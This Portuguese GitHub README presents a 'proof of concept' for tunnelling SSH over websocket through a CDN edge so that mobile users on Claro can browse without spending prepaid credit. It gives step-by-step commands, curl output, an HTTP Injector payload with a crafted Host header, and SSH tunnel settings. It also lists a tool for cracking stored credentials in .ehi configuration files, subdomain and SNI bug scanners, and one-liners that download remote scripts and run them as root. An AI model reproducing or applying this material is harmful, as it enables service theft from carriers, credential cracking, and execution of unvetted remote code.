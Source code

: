 # Netfree-proxy
POC de Netfree

Baseado no exploit original exposto no final de 2022 nos grupos telegram, segue o passo a passo de como reproduzir.
* Script Original: https://github.com/leitura/ws/blob/main/ws
* Autor: @OMentalista (telegram)

Step-by-step
============

1. Primeiramente precisamos de uma VM com IP publico na rede e acesso ssh sem firewall. Ex.
```
ssh root@142.93.9.181
```
(obs: tenha um usuario non-root para os testes.. Neste exemplo: user: nes / pass: ***)

2. Suba o proxy.py (código usado pelos Netfree)

3. Deixe o proxy rodando
```
nohup python proxy.py -p 81 &
```

4. Testando conexão local
```
curl http://142.93.9.181:81 -v
*   Trying 142.93.9.181:81...
* Connected to 142.93.9.181 (142.93.9.181) port 81 (#0)
> GET / HTTP/1.1
> Host: 142.93.9.181:81
> User-Agent: curl/7.77.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 101 Switching Protocols 
< Upgrade: websocket 
< Connection: Upgrade
< 
SSH-2.0-OpenSSH_7.4
```

5. Configurar um Edge application apontando para a origem 142.93.9.181:81 e um domain para testes
 
6. Teste feito em uma Edge Application com websocket ligado.
```
curl -v http://201.21.211.115 -H 'Host: xlm94s2zs8.map.acionedge.net' -H 'Connection: Upgrade' -H 'Upgrade: Websocket'
*   Trying 201.21.211.115:80...
* Connected to 201.21.211.115 (201.21.211.115) port 80 (#0)
> GET / HTTP/1.1
> Host: xlm94s2zs8.map.acionedge.net
> User-Agent: curl/7.77.0
> Accept: */*
> Connection: Upgrade
> Upgrade: Websocket
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 101 Switching Protocols 
< Date: Tue, 16 Aug 2022 13:48:08 GMT
< Connection: upgrade
< Upgrade: websocket
< 
SSH-2.0-OpenSSH_7.4
```

7. Teste da conf em uma Edge Application com websocket desligado.
```
curl -v http://xlm94s2zs8.map.acionedge.net -H 'Connection: Upgrade' -H 'Upgrade: Websocket'
# Não haverá o retorno do switching protocols
```

8. Plus - Create a hot domain to be used with this cname: 
```
dig websocket.httpbin.xyz
curl -v http://websocket.httpbin.xyz -H 'Connection: Upgrade' -H 'Upgrade: Websocket'
```

9. Em um Android Baixar o HTTP Injector na PlayStore

10. Configurar o Tunnel:
```
Tunnel Type: Secure Shell (SSH)
Connect From: HTTP Proxy
Options: Custom Payload
[SAVE]
```

12. Configurar o Payload:
```
GET / HTTP/1.1[crlf]Host: websocket.httpbin.xyz[clrf]Connection: Upgrade[clrf]Upgrade: websocket[clrf][clrf]
```

14. Configurar o Remote Proxy:
```
websocket.httpbin.xyz:80
```

16. Configurar o Settings/Secure Shell (SSH)
```
SSH Host: websocket.httpbin.xyz
SSH Port: 80
Username: nes
Password: ***
```
(obs - configurar uma conta de user qquer no seu servidor SSH que foi criada la no passo 1)


A partir daqui é possivel acessar a internet pelo tunel configurado sem que seus creditos pre-pagos sejam consumidos.
Mesmo zerando os creditos da Claro, foi possivel continuar navegando no youtube, playstore, e outros serviços mesmo não sendo HTTP ou zero-rating hosts.


Grupos no Telegram
==================

Busque por "Netfree", "HttpInjector", "HttpInjectorX9", etc.

Abaixo uma lista de ferramentas compiladas:

1. HTTPInjector 
* https://play.google.com/store/apps/details?id=com.evozi.injector&hl=pt_BR
* É um client VPN universal (SSH/Proxy/SSL Tunnel/DNS Tunnel/Shadowsocks/V2Ray/Xray/Hysteria/Wireguard)
* Salva as configurações em .ehi 
2. HTTPInjectorX9
* É um script em lua (x9.lua) usado para crackear o conteúdo de arquivos .ehi (inclusive user/pass salvos)
3. Subfinder
* https://github.com/projectdiscovery/subfinder
* subdomain discovery tool that returns valid subdomains for websites, using passive online sources. 
```
subfinder -d example.com -o exemplo.com.lst
```

4. Bug scanner do group @darktunnel_group (telegram)
* https://github.com/aztecrabbit/bugscanner-go
* Scan da lista gerada pelo subfinder
```
bugscanner-go scan direct -f exemplo.com.lst -o cf.lst
```
* scan CDN SSL:
```
bugscanner-go scan cdn-ssl --proxy-filename cf.lst --target ws.exemplo.com
```
* Scan Server Name Indication (SNI):
```
bugscanner-go scan sni -f exemplo.com.lst --threads 16 --timeout 8 --deep 3
```

5. Scripts do @OMentalista (telegram)
* SSHPLUS - https://github.com/leitura/SSHPLUS
```
apt update -y && apt upgrade -y && wget https://raw.githubusercontent.com/leitura/SSHPLUS/master/Plus && chmod 777 Plus && ./Plus
```
* SCRIPT SSL WS - https://github.com/leitura/ws
```
wget https://raw.githubusercontent.com/leitura/ws/main/ws && chmod +x ws && ./ws
```
* SCRIPT SENHA ROOT - https://github.com/leitura/senharoot
```
bash <(wget -qO- https://raw.githubusercontent.com/leitura/senharoot/main/senharoot.sh)
```
